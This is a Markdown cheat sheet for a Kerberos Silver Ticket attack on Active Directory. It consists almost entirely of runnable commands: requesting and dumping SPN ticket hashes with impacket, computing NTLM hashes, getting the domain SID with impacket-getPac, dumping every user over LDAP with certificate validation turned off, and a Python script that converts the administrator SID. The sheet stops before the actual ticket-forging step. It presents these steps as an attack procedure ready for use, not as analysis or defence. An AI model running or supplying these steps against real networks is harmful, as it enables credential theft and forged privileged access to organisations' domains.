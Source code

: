 
# Silver Ticket Attack

## Get SPN and Dump Hash

Request SPN info using Kerberos
`impacket-GetUserSPNs domain/username:password -dc-ip dcfqdn -request -k`

## Create NTLM Hash of Password

Ensure correct format, and create proper hash
`iconv -f ASCII -t UTF-16LE <(printf "password") | openssl dgst -md4`

## Obtain Domain SID

### Primary Method

Use any user to authenticate and get DA SID
`impacket-getPac -targetUser administrator domain/username:password`

### Alternate Method

Get DC LDAP Cert
`echo -n | openssl s_client -connect dcfqdn:636 | sed -ne '/-BEGIN CERTIFICATE-/,/-END CERTIFICATE-/P' > ldapserver.pem`

LDAP Search to Dump Users
The `tls_reqcert=never` is to allow self-signed certs.
If you need to troubleshoot, append `-d 5` to the command for debug info.
`ldapsearch -H ldap://ldapserverfqdn -Z -D username@domain -w password -b "DC=domainpart1,DC=domainafterdot" "(objectClass=user)" -o tls_cacert=./ldapserver.pem -o tls_reqcert=never > ldapsearch.out`

Find Administrator SID
`grep -A30 Administrator ldapsearch.out`

Convert it
```
sid.py:

#!/usr/bin/env python3

import base64
import struct
import sys

b64sid = sys.argv[1]
binsid = base64.b64decode(b64sid)
a, N, cccc, dddd, eeee, ffff, gggg = struct.unpack("BBxxxxxxIIIII", binsid)
bb, bbbb = struct.unpack(">xxHIxxxxxxxxxxxxxxxxxxxx", binsid)
bbbbbb = (bb << 32) | bbbb

print(f"S-{a}-{bbbbbb}-{cccc}-{dddd}-{eeee}-{ffff}-{gggg}")

./sid.py administratorbase64sid
```

